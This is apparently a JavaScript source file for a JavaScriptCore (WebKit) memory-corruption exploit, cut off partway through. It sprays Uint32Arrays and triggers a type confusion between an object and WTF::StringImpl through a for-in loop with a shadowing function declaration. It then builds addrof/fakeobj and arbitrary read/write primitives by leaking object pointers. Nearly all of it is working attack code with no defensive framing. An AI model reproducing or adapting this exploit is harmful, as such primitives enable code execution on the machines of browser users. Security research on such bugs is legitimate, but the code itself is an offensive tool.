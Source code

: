 //for addrof&fakeobj
var leaker_obj = {a: 0};
var leaker_arr = new Uint32Array(6);

//for arbitrary r/w
var oob_slave = new Uint8Array(1024);
var oob_master = new Uint32Array(7);

var spray = [];

function spray_one()
{
    var x = new Uint32Array(1);
    x[spray.length+'spray'] = 123;
    spray.push(x);
}

//spray Uint32Arrays
for(var i = 0; i < 0x10000; i++)
    spray_one();

//5678 is the length, see the original exploit for explanation of a
var target = {a: 2.1100820415101592e-303, b: false, c: true, d: 5678};
//crash if this second target is not present. not used anywhere, try removing if it crashes
var target2 = {a: 2.1100820415101592e-303, b: false, c: true, e: 5678};

var impl_idx = 0;

//type-confused with WTF::StringImpl
function create_impl()
{
    var ans = {a: target}; //a is type-confused with m_hashAndFlags
    for(var i = 0; i < 32; i++)
        ans[(impl_idx++)+'x'] = {};
    return ans;
}

function trigger(x)
{
    if(impl.a != target)
    {
        print("wtf?");
        while(1);
    }
    var o = {a: 1}; //a is type-confused with m_impl
    for(var i in o)
    {
        {
            i = x;
            function i(){}
        }
        o[i]; //this sets bit 4 (|= 16) in m_hashAndFlags
    }
    if(impl.a != target)
    {
        print("corrupted!");
        print(typeof (impl.a)); //object
        print(impl.a.length); //5678
        target.c = leaker_obj;
        leaker_obj.a = leaker_obj;
        var l1 = impl.a[4];
        var l2 = impl.a[5];
        leaker_obj.a = oob_slave;
        var s1 = impl.a[4];
        var s2 = impl.a[5];
        target.c = leaker_arr;
        impl.a[4] = l1;